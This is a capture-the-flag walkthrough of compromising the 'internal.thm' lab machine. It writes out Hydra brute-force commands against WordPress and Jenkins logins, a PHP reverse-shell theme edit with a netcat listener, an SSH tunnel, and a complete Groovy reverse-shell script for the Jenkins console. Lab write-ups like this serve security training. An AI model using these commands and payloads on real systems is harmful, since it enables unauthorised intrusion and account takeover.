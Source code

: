 # Enumeration
We start our autorecon scan, and immediately find ports 22 and 80 open.

![1cbfe26da35893fb8f51679ce2c3ffc1.png](./_resources/1cbfe26da35893fb8f51679ce2c3ffc1.png)

At the same time, we run a full nmap scan together with a detailed nmap scan of ports 22 and 80.

![7fa6069cc977982499ee52fa122441f2.png](./_resources/7fa6069cc977982499ee52fa122441f2.png)

![7783da174c4b85c4b4b216be02997124.png](./_resources/7783da174c4b85c4b4b216be02997124.png)

If we navigate to the web server, we find the Apache2 Ubuntu default page. Let's start a gobuster scan with:

```bash
gobuster dir -u http://10.10.150.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .txt,.html
```

We find a few interesting directories.

![d429c0ff51f78e194ac4327fdee78ab1.png](./_resources/d429c0ff51f78e194ac4327fdee78ab1.png)

Navigating to `/wordpress` greets us with an error page. The `/phpmyadmin` directory points us to a login page for phpMyAdmin, which is an administration tool for MySQL and MariaDB written in php.

![3af340524e03ef17ae1d180866caa1b4.png](./_resources/3af340524e03ef17ae1d180866caa1b4.png)

Let's also try the `/blog` directory. Here, we find some content.

![26fb86cc85d4745dd370a55f46357675.png](./_resources/26fb86cc85d4745dd370a55f46357675.png)

The webpage does not seem to be displaying properly, but we can fix this. Note that the "Hello world!" link refers to the `internal.thm` domain. Let's add `internal.thm` to the hosts file using `sudo nano /etc/hosts`. 

![61376b98cf16f74dbd2203f04c403a4b.png](./_resources/61376b98cf16f74dbd2203f04c403a4b.png)

Refreshing the page fixes the above issue.

![dd17b25bd51c8be3a9278cc013a71ca1.png](./_resources/dd17b25bd51c8be3a9278cc013a71ca1.png)

Clicking on the post for more details, we see that it was written by `admin`.

![62d89ee3702a14ddfbc811edc2b30d27.png](./_resources/62d89ee3702a14ddfbc811edc2b30d27.png)

We can also find a link to the WordPress login page.

![390e69699b20d6ef4419d49afafce9e1.png](./_resources/390e69699b20d6ef4419d49afafce9e1.png)

We can try brute forcing the login using Hydra. Note that if we enter a random login name, we get a confirmation that the user we entered doesn't exist. This confirms that `admin` is a possible username.

![2d67c92f001ee958df390a26d4480de2.png](./_resources/2d67c92f001ee958df390a26d4480de2.png)

![88569d46d72864c6c0a35e5fbc54eb66.png](./_resources/88569d46d72864c6c0a35e5fbc54eb66.png)

Now run Hydra with:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm http-post-form "/blog/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -v -t 32
```

Eventually, we find the admin's password, which we can use to log in.

![fe0c369e74831c9edda3a42557acf279.png](./_resources/fe0c369e74831c9edda3a42557acf279.png)
<br>

# Exploitation
After logging in to the admin's account, we are asked verify the administration email.

![e62cf2ebf82b0995e23fe76617389037.png](./_resources/e62cf2ebf82b0995e23fe76617389037.png)

None of the links seem to work, so we simply click "Back to Internal". Now that we are logged in as this admin, we have a few more things to investigate. If we use the toolbar, we can navigate to Internal > Themes > Appearance > Theme Editor.

![2493d5bec119d44438c5f48e2f2cc941.png](./_resources/2493d5bec119d44438c5f48e2f2cc941.png)

![c8ac67f6a064be831ef97267c0749373.png](./_resources/c8ac67f6a064be831ef97267c0749373.png)

Notice that we can edit the php of some of the templates here. Let's replace the contents of the `404.php` file with a php reverse shell script. We can use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make the appropriate changes to the script, update the 404 Template file. Now set up a netcat lister with `rlwrap nc -lvnp 9999` and navigate to `http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php`. We see that this gives a reverse shell, and so we have an initial foothold.

![96ef3945882122e31cc70ba1699e921f.png](./_resources/96ef3945882122e31cc70ba1699e921f.png)

Let's upgrade our shell with `python -c 'import pty; pty.spawn("/bin/bash")'`. Looking around the file system, eventually we find another user: aubreanna.

![39221cddcafd15e137049c6efb9e7516.png](./_resources/39221cddcafd15e137049c6efb9e7516.png)

Unfortunately, we don't have access to aubreanna's home directory. Let's go back to the admin's WordPress dashboard, since there was something there that we overlooked. Looking around a bit, we eventually find a private post containing another pair of credentials.

![1a07aeda2b95da20ac89eb833ebf9915.png](./_resources/1a07aeda2b95da20ac89eb833ebf9915.png)

At this point, we try using these credentials in the three places we've found so far that accept logins (ssh, WordPress login, and phpMyAdmin), but it doesn't get us anywhere.

Going back to our shell, we look around the file system a bit more. Eventually, we notice that the `/opt` folder contains some interesting files, one of which contains the password for aubreanna's account.

![e860f56790b0e56d0e7ac1e60deb10f1.png](./_resources/e860f56790b0e56d0e7ac1e60deb10f1.png)

Making a guess, we try ssh'ing into aubreanna's account with the password we just found.

![2502625efacd4b4da5517dfd808631e7.png](./_resources/2502625efacd4b4da5517dfd808631e7.png)

Success! We can now obtain the `user.txt` flag.

![a8dfb9aded30a89c330ba59b410ba686.png](./_resources/a8dfb9aded30a89c330ba59b410ba686.png)
<br>

# Post-Exploitation
Along with the `user.txt` flag, we found a `jenkins.txt` document.

![37343800ac3ed0d692c8abed623ce048.png](./_resources/37343800ac3ed0d692c8abed623ce048.png)

In order to access this internal Jenkins server, we'll use ``ssh -L 8080:172.17.0.2:8080 aubreanna@<target IP>``.

![47fba4a9b49e8504599d13cd40313020.png](./_resources/47fba4a9b49e8504599d13cd40313020.png)

This gives us access to a Jenkins login page via `127.0.0.1:8080`.

![bbbff8c794002b49b9af8467256361e2.png](./_resources/bbbff8c794002b49b9af8467256361e2.png)

None of the credentials we found earlier work, so let's try brute forcing the login page with Hydra. First, we'll need to capture the login request with BurpSuite. Note that we are using port 8080 to tunnel into the Jenkins server; BurpSuite uses port 8080 by default, so make sure to change it temporarily to something else.

```txt
POST /j_acegi_security_check HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/loginError
Cookie: JSESSIONID.ccd20f87=node0sd4rv554nryq1a1o7omhif7ih0.node0
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

j_username=ad&j_password=pswd&from=%2F&Submit=Sign+in
```

Now we can use this to craft the Hydra brute force attack. The default username for Jenkins is `admin`, so we'll use that for our username. The passwords will come from the `rockyou.txt` wordlist. Now we run:

```bash
hydra -s 8080 127.0.0.1 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt -t 32
```

Eventually, we find a valid pair of credentials.

![ae5a3a8d27de0c5d1a52bafab2092556.png](./_resources/ae5a3a8d27de0c5d1a52bafab2092556.png)

Now that we have access to Jenkins, we can run commands using a Groovy script. To set this up, from the Jenkins homepage we navigate to Manage Jenkins > Script Console. I found this script [here](https://pentestbook.six2dez.com/enumeration/webservices/jenkins). 

```txt
String host="<attacking IP>";
int port=<listening port>;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![ce8d07803d0326f7ad46b72805d8c343.png](./_resources/ce8d07803d0326f7ad46b72805d8c343.png)

Now set up a netcat listener, press "Run" on the script console, and catch the reverse shell.

![24890b6915d07fdd29c004574f3d2861.png](./_resources/24890b6915d07fdd29c004574f3d2861.png)

We can start by upgrading our shell with `python -c 'import pty;pty.spawn("/bin/bash")'
`. Looking around, we eventually find a `note.txt` in the `/opt` directory.

![4a292a777911129412396c228e805c2b.png](./_resources/4a292a777911129412396c228e805c2b.png)

The root credentials! We can try ssh'ing into the root user's account, and we find that this works. Using this, we finally gain access to the `root.txt` flag.

![5347160214b218f858ddb8732d770e2f.png](./_resources/5347160214b218f858ddb8732d770e2f.png)

![17b9a2f25de60142f3f1cd91393828af.png](./_resources/17b9a2f25de60142f3f1cd91393828af.png)